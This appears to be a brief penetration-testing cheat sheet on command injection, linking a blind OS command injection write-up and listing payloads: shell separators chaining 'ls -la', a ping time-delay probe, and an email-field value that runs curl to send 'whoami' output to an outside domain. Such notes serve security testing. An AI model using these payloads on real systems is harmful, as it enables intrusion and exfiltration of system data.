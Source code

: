 # Command Injection

[Blind OS Command Injection via Activation Request](https://medium.com/@alb-soul/blind-os-command-injection-via-activation-request-66dc25377bf4)

```jsx
Normal > ;ls -la, | ls -la, && ls -la
Time Delay > ping -c 10 127.0.0.1
Blind > email=a@gmail.com||curl mydomain.com/$(whoami)||
```